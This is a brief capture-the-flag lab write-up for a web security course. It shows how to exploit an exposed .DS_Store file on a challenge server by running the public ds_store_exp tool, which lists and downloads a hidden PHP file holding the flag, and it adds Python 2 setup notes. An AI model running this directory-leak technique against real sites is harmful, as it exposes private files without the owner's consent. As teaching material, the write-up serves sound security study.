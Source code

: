 ```yaml
---
title: Simple Web 0x02(Lab - `.DS_Store`)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Information Leak"
---
```


# Simple Web 0x02(Lab - `.DS_Store`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9001/

## Exploit - `.DS_Store`
Clone  `lijiejie/ds_store_exp`
```bash!
$ git clone https://github.com/lijiejie/ds_store_exp.git
$ python ds_store_exp.py http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/super_secret_meowmeow.php
[200] http://h4ck3r.quest:9001/index.php
$ cd h4ck3r.quest_9001
$ cat super_secret_meowmeow.php
FLAG{.DS_Store is so annoying lmao}
```
* Note that, must install `python 2`, `requests`, `ds_store` and modify `queue`(`import queue`→`import Queue as queue`)
    ```bash!
    $ conda create --name py2.7 python=2.7
    $ conda install -c auto ds_store
    $ conda install -c anaconda requests
    ```

## Reference
[python-no-module-named-queue](https://bobbyhadz.com/blog/python-no-module-named-queue)
